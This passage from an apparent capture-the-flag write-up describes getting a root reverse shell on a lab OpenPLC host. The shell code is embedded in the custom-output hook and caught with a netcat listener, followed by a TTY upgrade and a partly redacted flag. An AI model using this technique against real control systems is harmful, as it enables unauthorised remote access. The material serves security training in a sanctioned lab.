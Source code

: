 ![](/img/image-20240721090253599.png)

I'll take the `main` function of the reverse shell and make it the body
of `updateCustomOut`, making sure to update the `port` and IP address
string:

![](/img/image-20240721090336494.png)

On clicking "Save Changes", it shows the program compile:

![](/img/image-20240713215348316.png)

I'll click "Go to Dashboard" and then "Start PLC". I get a connection at
`nc`:



    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.7 47660



I'll upgrade the shell with the standard trick:



    ‍script /dev/null -c bash
    Script started, output log file is '/dev/null'.     
    root@attica01:/opt/PLC/OpenPLC_v3/webserver# ^Z     
    [1]+  Stopped                 nc -lnvp 443          
    oxdf@hacky$ stty raw -echo; fg
    nc -lnvp 443
                ‍reset                                   
    reset: unknown terminal type unknown
    Terminal type? screen
    root@attica01:/opt/PLC/OpenPLC_v3/webserver# 



And `user.txt` is in `/root`:



    root@attica02:~# cat user.txt
    767919aa************************



## Shell as root on ap

### Enumeration

#### Home Enumeration

The host is relatively empty. The `/root` directory is basically empty
other than `user.txt`. There's a single user in `/home`, ubuntu, but
that directory is empty as well:
